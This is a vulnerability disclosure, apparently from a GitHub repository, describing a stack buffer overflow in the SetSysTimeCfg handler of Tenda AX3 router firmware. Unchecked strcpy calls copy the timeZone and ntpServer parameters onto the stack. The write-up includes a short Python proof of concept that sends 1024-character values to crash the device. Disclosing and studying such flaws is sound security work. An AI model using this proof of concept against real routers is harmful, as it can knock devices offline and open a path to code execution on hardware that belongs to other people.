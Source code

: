# Tenda Router AX3 Vulnerability

There is a vulnerability lies in page `goform/SetSysTimeCfg`,which influences the lastest version of Tenda Router AX3([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html)).

# Description

Vulnerability function `fromSetSysTime`

![image-20220118231051539](1.png)

The `v5` variable is obtained directly from the http request parameter `timeZone`.

The `v7` variable is obtained directly from the http request parameter `ntpServer`. 



This function uses strcpy to copy **the variable v5 to the stack variable &v3** and the **variable v7 to the stack variable &v34[16]** without any sercuity check.



Attacker can construct **a long timeZone parameter or a long ntpServer parameter** in the http request,which causes stack overflow.

Combining the above two vulnerabilities can cause **arbitrary code execution**.

# POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetSysTimeCfg"

timeZone = "a" * 1024

ntpServer = "c" * 1024

r = requests.post(url, data={'timeZone': timeZone,'ntpServer':ntpServer})
print(r.content)
```

# Timeline

- 2022-01-18 report to CNVD & CVE